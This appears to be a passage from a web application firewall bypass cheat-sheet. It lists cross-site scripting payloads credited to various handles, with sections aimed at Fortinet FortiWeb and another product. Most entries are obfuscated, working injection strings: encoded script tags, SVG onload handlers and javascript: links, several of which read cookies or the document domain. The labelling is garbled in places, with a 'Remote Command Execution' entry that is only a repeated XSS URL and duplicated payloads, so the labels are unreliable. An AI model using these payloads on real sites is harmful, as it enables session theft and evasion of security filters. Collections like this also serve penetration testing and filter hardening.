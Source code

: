 ```
http://host/ws/generic_api_call.pl?function=statns&standalone=%3c/script%3e%3cscript%3ealert(document.cookie)%3c/script%3e%3cscript%3eCloudflare
```

Remote Command Execution (v3.8-5) by @John Dos  

```
http://host/ws/generic_api_call.pl?function=statns&standalone=%3c/script%3e%3cscript%3ealert(document.cookie)%3c/script%3e%3cscript%3e
```

Persistent XSS (v4.0) by @EnableSecurity  

```
<div style="background:url(/f#oo/;color:red/*/foo.jpg);">X
```

R-XSS Bypass by @WAFNinja

```
<a+HREF='javascrip%26%239t:alert%26lpar;document.domain)'>test</a>
```

XSS Bypass by @0xInfection  

```
<svg onload=prompt%26%230000000040document.domain)><svg onload=prompt%26%23x000000028;document.domain)>xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>1'"><img/src/onerror=.1|alert``>
```

POST - XSS Bypass (v4.02) by @DavidK  

```
<svg/onload=alert()//
```

```
<a href="j	a	v	asc
ri	pt:\u0061\u006C\u0065\u0072\u0074(this['document']['cookie'])">X</a>`
```

### **Fortinet Fortiweb**

`pcre_expression` unvaidated XSS by @Benjamin Mejri

```
<--`<img/src=` onerror=confirm``> --!>
```

CSP Bypass by @Binar10

POST Type Query

```
<--`<img/src=` onerror=confirm``> --!>
```

GET Type Query

```
javascript:{alert`0`}
```
